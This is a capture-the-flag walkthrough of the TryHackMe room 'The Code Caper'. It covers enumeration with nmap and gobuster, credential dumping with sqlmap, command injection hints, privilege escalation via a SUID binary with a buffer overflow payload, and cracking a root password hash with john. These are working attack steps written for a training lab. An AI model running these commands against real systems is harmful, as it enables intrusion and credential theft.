 # The Code caper

[Link to room](https://tryhackme.com/room/thecodcaper)

echo <machine-ip> codcaper.com >> /etc/hosts.com

Host-Enumeration

```nmap
# Nmap 7.80 scan initiated Fri May 29 10:13:06 2020 as: nmap -sV -sC -A -p 1-1000 -oN nmap.txt 10.10.9.78
Nmap scan report for 10.10.9.78
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/29%OT=22%CT=1%CU=39823%PV=Y%DS=2%DC=T%G=Y%TM=5ED1189
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   183.91 ms 10.9.0.1
2   184.02 ms 10.10.9.78

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 10:13:41 2020 -- 1 IP address (1 host up) scanned in 34.69 seconds
```

1. How many ports are open on the target machine?

> 2

2. What is the http-title of the web server?

> http-title of nmap scan

3. What version is the ssh service?

> use nmap -sV to check for versions 

4. What is the version of the web server?

> http-server-header of nmap


## Web Enumeration
1. What is the name of the important file on the server?

```bash
gobuster dir -u http://codcaper.com -w /usr/share/SecLists/Discovery/Web-Content/big.txt -t 40 -x php,html,txt
```
```
===============================================================                                                                                              
2020/06/17 03:36:26 Starting gobuster                                                                                                                        
===============================================================
/administrator.php (Status: 200)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
===============================================================
2020/06/17 03:36:34 Finished
===============================================================
```

## Web Exploitation

```bash
sqlmap -u http://codcaper.com/administrator.php --forms --dump
```
1. What is the admin username?
2. What is the admin password?

```
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

3. How many forms of SQLI is the form vulnerable to?

> 3


## Command Injection

go to codcaper.com/administrator.php and enter the credentials

###### Getting shell by command injection

1. How many files are in the current directory?

> run ls 

2. Do I still have an account?

> cat /etc/passwd and check if pingu exists

3. What is my ssh password?

> find / -name pass and cat it 

Login by ssh as pingu

## LinEnum

```bash
scp {path to linenum} {user}@{host}:{path}. Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```
1. What is the interesting path of the interesting suid file

```
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
```

Syntax error in method 2 , so here is the code without errors
```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```
1. What is the root password!

```bash
echo '$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.' > hash
john --wordlist=/usr/share/wordlist/rockyou.txt hash
```

